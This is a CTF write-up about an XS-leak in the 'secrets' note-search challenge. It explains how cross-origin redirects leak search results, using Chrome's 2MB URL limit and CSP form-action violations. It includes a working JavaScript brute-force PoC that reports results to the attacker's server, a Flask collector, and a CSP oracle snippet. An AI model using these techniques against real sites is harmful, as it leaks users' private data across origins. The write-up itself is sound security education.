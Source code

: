 ```yaml
---
description: XS leak through cross-origin redirects — intended and unintended
---
```


# secrets

## Overview

> A secure and secret note storage system is a platform or application designed to keep your confidential notes safe from unauthorized access.

The challenge revolved around searching contents of secret notes.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.46.57 PM.png" alt=""><figcaption></figcaption></figure>

Let's examine the behaviour of the search feature.

When searching for a note through `/search?query=<query>`, there are two possible responses:

1. The note was found.

In this case, a 301 redirect is issued to `http://results.wtl.pw/results?ids=<note UUIDs>&query=<query>`.

```http
HTTP/1.1 301 MOVED PERMANENTLY
Server: nginx/1.23.3
Date: Sun, 19 Feb 2023 13:48:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 357
Connection: close
Location: http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&query=test
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&amp;query=test">http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&amp;query=test</a>. If not, click the link.
```

It is important to note that this is a redirect to a _different_ subdomain. Searching on **`secrets`**`.wtl.pw` redirects to **`results`**`.wtl.pw`.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.52.17 PM.png" alt=""><figcaption></figcaption></figure>

2. The note was not found.

In this case, a 301 redirect is issued to `http://secrets.wtl.pw/#<query>`.

```http
HTTP/1.1 301 MOVED PERMANENTLY
Server: nginx/1.23.3
Date: Sun, 19 Feb 2023 13:51:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 241
Connection: close
Location: http://secrets.wtl.pw/#asdf
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://secrets.wtl.pw/#asdf">http://secrets.wtl.pw/#asdf</a>. If not, click the link.

```

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.51.58 PM.png" alt=""><figcaption></figcaption></figure>

## Unintended Solution — Chrome's 2MB URL Limit

One thing that might be immediately noticeable is that if the note was found, then the resulting URL length is extended considerably by the `ids` parameter.

A [well-known technique](https://xsleaks.dev/docs/attacks/navigations/#inflation) in these kinds of scenarios is hitting the server's maximum URL limit, and detecting error status codes. However, these rely on `SameSite=None` cookies for the [error event detection](https://xsleaks.dev/docs/attacks/error-events/).&#x20;

The challenge had `SameSite=Lax` cookies, so the primitive for any XS-Leak attack is a top-level navigation (e.g. through `window.open`). There is no way to detect server response codes in a cross-origin window reference, so I started looking for other ways to detect the URL inflation.

We might not be able to detect a _server-side_ URL length error, but can we somehow detect a _client-side_ one? According to [Chromium documentation](https://chromium.googlesource.com/chromium/src/+/main/docs/security/url\_display\_guidelines/url\_display\_guidelines.md#URL-Length), Chrome's maximum URL length is 2MB.

> In general, the _web platform_ does not have limits on the length of URLs (although 2^31 is a common limit). _Chrome_ limits URLs to a maximum length of **2MB** for practical reasons and to avoid causing denial-of-service problems in inter-process communication.

This is where it gets interesting! Because this is a _client-side_ constraint, and URL fragments persist on redirects, we can open `/search?query=<query>#AAA...[2MB]...AAA` to hit the length limit.

So, what happens when the URL limit is exceeded?

Apparently, it shows an `about:blank#blocked` page.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.38.58 PM.png" alt=""><figcaption></figcaption></figure>

As you might expect, trying to access the `origin` (or any other sensitive information) of a cross-origin window reference would raise an exception.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.43.00 PM.png" alt=""><figcaption></figcaption></figure>

However, when opening a page that errors out due to the 2MB constraint, the window's `origin` remains that of the parent.

As an experiment, let's try a successful query.

```javascript
let url = "http://secrets.wtl.pw/search?query=test#"
let w = window.open(url + "A".repeat(2 * 1024 * 1024 - url.length - 1))
```

The length of the opened URL&#x20;

```
http://secrets.wtl.pw/search?query=test#AAA...AAA
```

is exactly 2MB - 1, so the initial search URL is just under the length limit.

When the window is redirected to

```
http://results.wtl.pw/results?ids=<note UUIDs>&query=test#AAA...AAA
```

the URL is extended and the length limit is hit. The window becomes an `about:blank` page and its `origin` remains that of the parent.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.54.16 PM.png" alt=""><figcaption></figcaption></figure>

Now, if we try the same thing on an unsuccessful query, the final redirected URL falls short of the 2MB limit and the window's `origin` is no longer accessible.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.54.42 PM.png" alt=""><figcaption></figcaption></figure>

This can be extended to the following PoC, which brute-forces a character of the flag.

```markup
<html>
<body></body>
<script>
    (async () => {

        const curr = "http://secrets.wtl.pw/search?query=HackTM{"

        const time = async(char) => {
            fetch("/?try=" + char)
            let w = window.open(curr + char +  "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2))
            
            const check = async() => {
                try {
                    w.origin
                } catch {
                    fetch("/?nope=" + char)
                    return
                }
                setTimeout(check, 100)
            }
            check()
        }

        const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

        for (let i=0; i<CHARSET.length; i++) {
            time(CHARSET[i])
            await new Promise(resolve => setTimeout(resolve, 50))
        }
    })()

</script>
</html>
```

Because this PoC only tells us what is definitely _not_ the flag (by detecting the `w.origin` errors), we can implement a backend server to quickly find what _is_ the flag by eliminating the unsuccessful queries from the charset.

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars
    
    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

The downside of this method is that the long URLs can cause significant lag on the server's admin bot. This _may or may not_ have made the bot extremely unstable for a period of time... oops!

## Intended Solution — CSP Violation

It turns out that there is a much faster and less laggy way of detecting the redirects. Because the redirect is to a different origin, we can use [CSP violations](https://xsleaks.dev/docs/attacks/navigations/#cross-origin-redirects) as an oracle.&#x20;

```markup
<meta http-equiv="Content-Security-Policy" content="form-action http://secrets.wtl.pw">
<form action="http://secrets.wtl.pw/search" method="get">
    <input type="text" name="query" value="test">
</form>

<script>
    document.addEventListener('securitypolicyviolation', () => {
        console.log("CSP violation!")
    });
    document.forms[0].submit();
</script>
```

Because the query was successful, the window attempted to load `http://results.wtl.pw`. But since our CSP dictates that forms can only be submitted to `http://secrets.wtl.pw`, the request was blocked. We can detect this through the `securitypolicyviolation` event listener.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 11.03.59 PM.png" alt=""><figcaption></figcaption></figure>
